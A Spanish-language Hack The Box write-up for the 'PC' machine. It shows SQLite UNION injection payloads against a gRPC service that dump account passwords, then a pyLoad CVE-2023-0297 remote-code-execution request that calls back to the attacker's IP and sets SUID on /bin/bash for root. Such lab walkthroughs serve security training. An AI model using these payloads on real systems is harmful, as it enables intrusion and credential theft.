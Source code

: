 ```yaml
---
title: PC HTB
date: 2023-07-19
tier: easy
author: naibu3
---
```


# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.214
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

Ahora tratamos de detectar versiones y servicios:

```bash
sudo nmap -sCV -p22,50051 -n -Pn 10.10.11.214
```
```nmap
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```

Vemos que se trata de un puerto bastante raro. Además si tratamos de comunicarnos con [[curl]], nos da el siguiente mensaje de error:

```curl
Received HTTP/0.9 when not allowed
```

Si buscamos el error y *service*, encontraremos que puede tratarse de un servicio [[gRPC]]. Además, en este [artículo](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) se detalla bastante. Podemos utilizar la herramienta [[grpcurl]], pero es más cómoda [[grpcui]]. Así que la instalamos y utilizamos el siguiente comando:

```bash
grpcui -plaintext 10.10.11.214:50051
```

Se nos abrirá en el navegador una pestaña mediante la cuál podremos tramitar peticiones a la API. Si tratamos de hacer *login* con las credenciales *admin:admin*, veremos que nos dan un *Jason Web Token* ([[JWT]]) y un *ID*. Ahora, si tratamos de hacer una petición a *getInfo*, pasando el ID y el JWT, veremos un mensaje de error `Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable`. Si tratamos de capturar la petición con [[burpsuite]] y probamos con una inyección SQL ([[SQLI]]) como `OR 1=1-- -`, veremos que nos reporta un error, dándonos la pista de que pueda ser vulnerable a [[SQLI]].

# Explotación

Vamos a tratar de enumerar la base de datos, para ver que tipo de BD se trata, probaremos distintas funciones de cada gestor (puedes verlas en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)). Si probamos con una de **SQLite**:

```sql
542 UNION SELECT sqlite_version()=sqlite_version()-- -
```

Vemos que funciona, por lo que el gestor es **SQLite**. Vamos a tratar ahora de enumerar las bases de datos (utilizaremos las inyecciones de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)):

```sql
542 UNIoN SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

En la respuesta vemos dos tablas **accounts** y **messages**. Vamos a tratar de ver qué columnas hay en **accounts**:

```sql
542 UNIoN SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -
```

Y vemos que hay dos columnas **username** y **password**. Ya podemos directamente tratar de listar los usuarios (debemos utilizar *group_concat*):

```sql
542 UNION SELECT group_concat(username) FROM accounts-- -
```

Y vemos que existen dos usuarios **admin** y **sau**. Vamos a tratar de listar sus contraseñas:

```sql
542 UNIoN SELECT group_concat(password) From accounts WHERE username='sau'-- -
```

Para *admin* ya sabíamos que era *admin*, y tenemos que para **sau** es **HereIsYourPassWord1431**. Si tratamos de acceder por [[22-ssh]], lograremos acceder y ver la **flag de usuario** (`83508536f23f17e1e05c57c82ed1c8cb`).

# Escalada de privilegios

Una vez dentro comenzaremos con el [[Reconocimiento del equipo]]. Como no vemos nada sospechoso lanzamos [[linpeas]]. Entre otras cosas, podemos ver que hay un servicio corriendo en el puerto 8000:

```linpeas
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -
```

Así que hacemos [[eJPT-Notes/port forwarding]]:

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Si lanzamos [[nmap]]:

```bash
nmap -p8000 -sCV localhost
```
```nmap
PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
```

Vemos que está corriendo un servicio [[80-http]] con lo que parece un **pyLoad**. Si accedemos via navegador, confirmamos que se trata de dicho servicio. Veremos un panel de login en el que no parecen funcionar las credenciales por defecto.

Con una búsqueda por internet encontramos el siguiente [artículo](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). Vemos que tenemos un [[RCE]]. Podemos comprobarlo montándonos un servidor http con [[python 1]] y tratando de mandarnos una petición desde el servidor:

```bash
curl -i -s -k -X $'POST' \                                                               
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.114\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \ 
    $'http://localhost:8000/flash/addcrypted2'
```

Como recibimos la respuesta correctamente, podemos tratar de cambiar los privilegios de la bash:

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20+4777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```

Y ya con un `bash -p` ya seríamos root. La flag es (`a31593104e9b23a59b146166fc794f72`).
